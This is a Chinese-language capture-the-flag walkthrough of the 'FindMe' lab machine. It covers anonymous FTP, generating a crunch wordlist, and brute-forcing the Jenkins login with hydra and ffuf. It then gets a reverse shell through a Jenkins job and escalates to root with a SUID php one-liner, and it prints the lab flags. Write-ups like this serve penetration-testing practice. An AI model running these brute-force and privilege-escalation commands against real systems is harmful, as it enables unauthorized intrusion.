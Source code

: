 # FindMe

2025.03.05 https://thehackerslabs.com/find-me/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

ftp 可匿名，读取 ayuda.txt , 提示用户名 geralt ，jenkins 的密码包含 5 个字符，以 p 开头，以 a 结尾。

访问 80web 上无信息，8080 web 显示 jenkins，根据上面提示生成密码，爆破（注意要加 C=/login，否则没有 cookie 爆破一直不成功）：

```
crunch 5 5 -t p@@@a -o pass.txt
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric -t p@@@a -o pass.txt  # 这个密码字典更大更全，先用上面的小写字母生成，爆不出来再用这个
```

```
hydra -l geralt -P pass 192.168.5.40 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:C=/login:F=Invalid username or password" -f
[8080][http-post-form] host: 192.168.5.40   login: geralt   password: panda
```

或者使用 ffuf 进行爆破：

```
ffuf -c -X POST -w pass -u http://192.168.5.40:8080/j_spring_security_check -H 'Content-Type: application/x-www-form-urlencoded'  -d 'j_username=geralt&j_password=FUZZ&from=%2F&Submit=' -fr 'loginError'
```

先将请求用 BP 拦截，保存到文件中 req.txt：

```
POST /j_spring_security_check HTTP/1.1
Host: 192.168.5.40:8080
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.5.40:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.5.40:8080/login?from=%2F
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID.2665f1e3=node01pmqddxyq7z2w1ubxf6ku9eroy169554.node0
Connection: close

j_username=geralt&j_password=FUZZ&from=%2F&Submit=
```

然后进行爆破，同样可以得到账户的密码：

```
ffuf -ac -request req.txt -request-proto http -w pass -t 100
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr 'loginError'
或
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr '.*loginError.*'
```

爆出密码 panda，登陆 jenkins。创建 item，执行反弹 shell 到 kali 上：

```
jenkins@find-me:~/workspace/shell$ id
id
uid=104(jenkins) gid=110(jenkins) grupos=110(jenkins)
```

发现 suid /usr/bin/php8.2

```
/usr/bin/php8.2 -r "posix_setuid(0); system('/bin/bash');"
```

直接拿到 root 权限，获得 flag：

```
root@find-me:/home/geralt# cat user.txt
be336806b564e9fd7812aef123f80b7b
root@find-me:/home/geralt# cat /root/root.txt
71b5a461e7df11a40f29c707a8b1b05f
```
